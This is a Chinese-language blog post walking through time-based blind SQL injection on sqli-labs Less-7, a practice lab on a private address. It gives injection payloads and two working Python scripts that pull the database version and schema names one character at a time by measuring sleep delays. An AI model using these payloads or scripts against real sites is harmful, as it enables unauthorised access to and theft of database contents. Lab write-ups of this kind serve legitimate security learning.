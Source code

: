 ```yaml
---
id: 613
layout: post
title: 'sqli lab 3 - 基于时间的盲注'
date: 2015-12-09 20:17:00
author: virusdefender
tags: 
---
```


基于时间的盲注，`http://172.16.61.136/sqli-labs/Less-7/?id=1`发现怎么写都不会爆出实际的错误了，返回值是下面两个之一

 - You are in.... 
 - You have an error in your SQL syntax

经过测试，发现`http://172.16.61.136/sqli-labs/Less-7/?id=1'`, id 后面添加单引号的时候会报错，双引号没问题，说明 id 是被单引号括起来的，但是`http://172.16.61.136/sqli-labs/Less-7/?id=1' --+`，后面如果添加注释的话还是会报错的，说明不仅仅是被单引号括起来的，但是能加的应该只有括号了吧，之前也有这样的例子，后来发现添加两个括号就可以了。所以 sql 语句应该是类似 `select * from table where id=(('$id'))`。

sql 语句中有一个 sleep 函数，一般这种不会报错的注入就要使用 sleep 了，测试一下。`http://172.16.61.136/sqli-labs/Less-7/?id=1')) union select 1, 2, sleep(3) --+`是过了三秒才响应的，说明 sql 注入确实存在。

但是实际应用中，怎么利用 sleep 来获取数据呢，一般的思路就是用 sql 语句中的 if 和 mid，来逐位的判断数据。

其中，MySQL 的 if 的用法是这样的

```
IF(expr1,expr2,expr3)

If expr1 is TRUE (expr1 <> 0 and expr1 <> NULL) then IF() returns expr2; otherwise it returns expr3. IF() returns a numeric or string value, depending on the context in which it is used.
```

如果 expr1 是 TRUE，就执行 expr2，否则就执行 expr3。

然后我们就可以这样逐位的去判断结果了，比如

```sql
select * from security.users where id =1 and if(ord(mid(version(),1,1))=53, sleep(3), 1);
```

这种基于时间的一般请求比较多，适合用代码来处理，比如获取 version() 的例子。
```python
# coding=utf-8
import requests
import time

url = "http://172.16.61.144/sqli-labs/Less-7/?id=1')) and if(ord(mid(version(), {position}, 1))={ord}, sleep(0.3), 1) --+"

for position in range(1, 50):
    flag = False
    for i in range(32, 127):
        start_time = time.time()
        u = url.format(position=position, ord=i)
        requests.get(u)
        end_time = time.time()
        if end_time - start_time > 0.3:
            flag = True
            print chr(i),
            break
    if not flag:
        break
```

其中我 sleep 了 0.3秒，因为测试环境在我的电脑上，正常访问肯定不会超过300毫秒的，但是实际情况下，要适当的加长的，防止被网速误导。

稍微改下就可以获取全部数据库了
```python
# coding=utf-8
import requests
import time

url = "http://172.16.61.144/sqli-labs/Less-7/?id=1')) and if(ord(mid((select schema_name from information_schema.schemata limit 1 offset {offset}), {position}, 1))={ord}, sleep(0.3), 1) --+"

for offset in range(10):
    for position in range(1, 50):
        flag2 = False
        for i in range(32, 127):
            start_time = time.time()
            u = url.format(offset=offset, position=position, ord=i)
            requests.get(u)
            end_time = time.time()
            if end_time - start_time > 0.3:
                flag2 = True
                print chr(i),
                break
        if not flag2:
            break
    print
```
这段代码没加 flag 控制，数据库还多的话，自己加一下 range。

然后同理可以获取到数据库的表和表的字段和具体的内容。
